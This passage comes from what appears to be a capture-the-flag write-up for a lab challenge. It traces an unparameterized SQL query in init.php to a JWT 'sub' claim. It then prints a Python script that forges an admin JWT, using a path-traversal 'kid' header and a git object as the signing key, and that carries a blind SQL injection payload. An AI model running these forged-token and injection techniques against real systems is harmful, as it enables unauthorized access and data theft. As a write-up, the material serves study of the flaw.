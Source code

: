 It was SQLite3 and those 2 methods were definitely wrappers for <a href="https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html#defense-option-1-prepared-statements-with-parameterized-queries">prepared statements</a>. So I didn't see the space for SQL injection on the <code>edit.php</code> page. I've analyzed other files and there was one interesting line in <code>/inc/init.php</code> 

```php
if ($user) {
   $user_obj = db_query_single("select * from users where username = '{$user['sub']}'");
}
```
It seems whatever is in JWT's <a href="https://datatracker.ietf.org/doc/html/rfc7519#section-4.1.2">Sub claim</a> will be embedded directly to the query and not as a parameter to be bound. Which means that prepared statement is not going to protect that query from SQL injection. I've also checked if $user_obj is being displayed somewhere in the html and that was not the case, so I will not be able to see the output of SQL injection that I am going to test against. From this it is clear this will be a <i>Blind SQL injection</i>.
</p><br>

<h4><b><i>Blind SQL injection</i></b></h4>
<p>
First I had to craft a JWT with "Sub" claim that included my injection and to confirm the blind approach actually works. Using the same method from before to login as admin I just modified the sub claim:<br>


```python

import requests
import json
import jwt

s = requests.Session()
s.keep_alive = False
h = {"Accept":"*/*","Accept-Encoding":"gzip, deflate","User-Agent":"Mozilla/5.0"}
url2 = "https://5f0df7f0-9d18-4797-bb6a-3ac7af2e7590.idocker.vuln.land/admin.php"
obj = ".git/objects/b0/e27f6adff54c677d31825edcd75bb6d0e8763e"

with open("e27f6adff54c677d31825edcd75bb6d0e8763e","rb") as f:
   content = f.read()

def log(url):
   token = jwt.encode({"sub":f"admin' AND 1=1 --", "name":"Admin", "admin":True}, key=content, algorithm="HS384", headers={"kid":f"../{obj}"})
   cookies = {"session":token}
   r = s.get(url,cookies=cookies)
   if r.status_code == 200:
     print("Logged in as admin!", r.text, token)
   else:
     print("Failed")

log(url2)

```
